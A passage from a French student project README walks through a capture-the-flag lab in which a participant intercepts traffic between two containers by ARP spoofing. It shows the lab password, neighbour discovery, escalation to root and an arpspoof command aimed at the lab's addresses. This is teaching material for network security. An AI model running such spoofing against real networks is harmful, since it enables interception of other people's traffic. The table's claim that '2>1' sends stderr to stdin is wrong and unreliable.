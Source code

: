 <ins>4.1) Déroulement de l'épreuve Man-In-The-Middle :</ins>\
Pour lancer l'épreuve, le participant doit lancer le script écrit pour cela :
```bashshell
root@debtiti:/home/titi/projet-DUT2-partie-Thibaut# ./epreuve2-MITM.sh 
```
Une fois cela fait, le participant arrive sur le terminal de Eve avec le message d'introduction :
```bashshell
Bonjour, dans cette épreuve Alice et Bob s'échangent des pings.
Votre objectif est d'intercepter leurs messages dans lesquels il y a les flags.

/!\ Le mot de passe de Eve est "Eve". /!\

Eve@MITM:~$ 
```
Pour effectuer l'attaque man-in-the-middle le participant doit savoir les adresse IP d'Alice et Bob, il peut le faire comme suit :
```bashshell
Eve@MITM:~$ ip neigh
172.50.0.2 dev eth0 lladdr 02:42:ac:32:00:02 REACHABLE
172.50.0.3 dev eth0 lladdr 02:42:ac:32:00:03 REACHABLE
Eve@MITM:~$ 
```
Maintenant que le participant les connaît, il doit devenir root : 
```bashshell
Eve@MITM:~$ sudo su

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for Eve: 
root@MITM:/home/Eve# 
```
Le participant étant root peut commencer l'attaque :
```bashshell
root@MITM:/home/Eve# arpspoof -t 172.50.0.2 172.50.0.3 2>1 &
[1] 21
root@MITM:/home/Eve#
```
L'explication de cette commande sera faite sous forme d'un tableau :
| Partie de la commande  |  explication |
|---|---|
|arpspoof|La commande qui consiste à envoyer des trame arp avec le choix de l'adresse IP source et destination.|
|-t| -t pour target, l'adresse IP qui suit est celle de la personne à qui le participant veut fausser la table ARP|
|172.50.0.2|L'adresse IP mentionné juste au-dessus, celle d'Alice, cette commande aura donc effet sur la table ARP d'Alice. C'est l'adresse IP de la destination.|
|172.50.0.3|Adresse IP de la source, présumé par Alice, qui est celle de Bob.|
|2>1|Redirige les informations du flux stderr vers le flux stdin. Sans cela la commande donne la réponse : `2:42:ac:32:0:4 2:42:ac:32:0:2 0806 42: arp reply 172.50.0.3 is-at 2:42:ac:32:0:4` or cela n'a pas l'air d'être un message d'erreur car le `arp reply 172.50.0.3 is-at 2:42:ac:32:0:4` indique bien que l'adresse 172.50.0.3 (Bob) est liée à l'adresse MAC de Eve, ce qui est voulue.|
|&|Fait en sorte que la commande se déroule en arrière-plan.|
